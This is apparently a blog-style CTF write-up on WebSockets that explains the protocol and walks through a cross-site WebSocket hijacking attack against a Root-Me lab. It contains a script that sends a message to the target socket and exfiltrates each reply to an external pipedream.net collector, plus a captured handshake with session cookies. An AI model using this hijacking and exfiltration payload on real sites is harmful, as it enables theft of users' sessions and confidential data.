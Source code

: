 ```yaml
---
title: XSS Vulnerabilities
description: Explanation of some XSS Vulnerabilities
date: "2025-03-23T10:00:00+02:00"

---
```


![Websocket_1](websockets.svg)

# Introduction

Today I'm going to talk about web sockets, you may have found {{< h sh >}} wss:// {{< /h >}} or `ws://` somewhere and wonder what's that, well I'll try to explain the best I can :)

## What are web Sockets?
WebSockets are widely used in modern web applications. They are initiated over HTTP and provide long-lived connections with asynchronous communication in both directions.
WebSockets are used for all kinds of purposes, including performing user actions and transmitting sensitive information. Virtually any web security vulnerability that arises with regular HTTP can also arise in relation to WebSockets communications. 

## What is the difference between HTTP and WebSockets?

Most communication between web browsers and web sites uses HTTP. With HTTP, the client sends a request and the server returns a response. Typically, the response occurs immediately, and the transaction is complete. Even if the network connection stays open, this will be used for a separate transaction of a request and a response. 

WebSocket connections are initiated over HTTP and are typically long-lived. Messages can be sent in either direction at any time and are not transactional in nature. The connection will normally stay open and idle until either the client or the server is ready to send a message.

WebSockets are particularly useful in situations where low-latency or server-initiated messages are required, such as real-time feeds of financial data. 

## How are WebSocket connections established?

WebSocket connections are normally created using client-side JavaScript like the following:
var ws = new WebSocket("wss://target-website.com/room");

## Check connection status
If you head to the !["mozilla mdn docs"](https://developer.mozilla.org/en-US/docs/Web/API/WebSocket/readyState) there is a rich page with really useful information about the websocket connection state. This way we can ensure wether we're connected (or not!):

| Value |    State   |                        Description                       |
|:-----:|:----------:|:--------------------------------------------------------:|
| 0     | CONNECTING | Socket has been created. The connection is not yet open. |
| 1     | OPEN       | The connection is open and ready to communicate.         |
| 2     | CLOSING    | The connection is in the process of closing.             |
| 3     | CLOSED     | The connection is closed or couldn't be opened.          |

This is the information that we need!

## Check for javascript files.
We can crawl through the website and see some javascript page:
[...]
```js
 var connection = new WebSocket('ws://'+window.location.hostname+'/ws');  
    connection.onopen = function () {};  
    connection.onerror = function (error) {
      alert("An error occured, you will reload the page for you to access a new room !")
      location.reload()
    };
    connection.onmessage = function (message) {
      $("#chatbox").append("You: "+$("#input").val().replace('<','').replace('>','')+"\n")
      $("#chatbox").append("\nBot: "+message["data"].replace('<','').replace('>','')+"\n-------------------------------------------------------------\n")
      $('#chatbox').scrollTop($('#chatbox')[0].scrollHeight);
      $("#input").val("")
    };
```
[...]
## Begin the connection.

```javascript
var ws = new WebSocket('ws://'+window.location.hostname+'/ws');
ws.readyState // this should return 1 ^^

// CSRF
ws.onmessage = function (message) {
      $("#chatbox").append("You: "+$("#input").val() + "\n")
      $("#chatbox").append("\nBot: "+message["data"] + "\n-------------------------------------------------------------\n")
      $('#chatbox').scrollTop($('#chatbox')[0].scrollHeight);
      $("#input").val("")
    };
```
<script>
websocket = new WebSocket('ws://ctf02.root-me.org/ws')
websocket.readyState;
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
  websocket.send("READY"); //Send the message to retreive confidential information
}
function handleReply(event) {
  //Exfiltrate the confidential information to attackers server
  fetch('https://eoj1ovww5kfcgvi.m.pipedream.net/?'+event.data, {mode: 'no-cors'})
}
</script>

# Let's get this party started

First, let's analyze if there's any CSRF TOKEN, if the connection is secured only by the cookie, we can hijack the user the html files for example, from another domain.
Let's open burp and initiate a WS connection, what do we see?

```html
GET /ws HTTP/1.1
Sec-WebSocket-Version: 13
Origin: http://ctf10.blabla
Sec-WebSocket-Key: iTI6sd0uJHFmgn5gu8kHLA==
Connection: keep-alive, Upgrade
Cookie: _ga_SRYSKX09J7=GS1.1.1659040468.3.1.1659042535.0; _ga=GA1.1.239451001.1658089567; connect.sid=s%3AdFQWhWUSdk2LvNXIraAJOcP3Gdr5Zw5z.1aRYfGUzzd6cOK5KeH6zNeTdzwOcvbFYngmjfzMecyY
Upgrade: websocket
```

Response:
```
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: mi0J6oYY40on/uTajuMWA/m+Ckc=
```

See, 3 cookies are set and there's nothing regarding CSRF tokens, looks nice.... but what about if we delete the cookies and reconnect again, will we be able to interact with the server?

sending ws message:
> Unable to verify your identity, please log in before chatting with me.

We got something!!! Now that we don't have any cookie, the connection is being made but requests are being rejected by WSS: We need some cookies!
Cookies can be gathered from a victim's pov

ws://ctf04.root-me.org/ws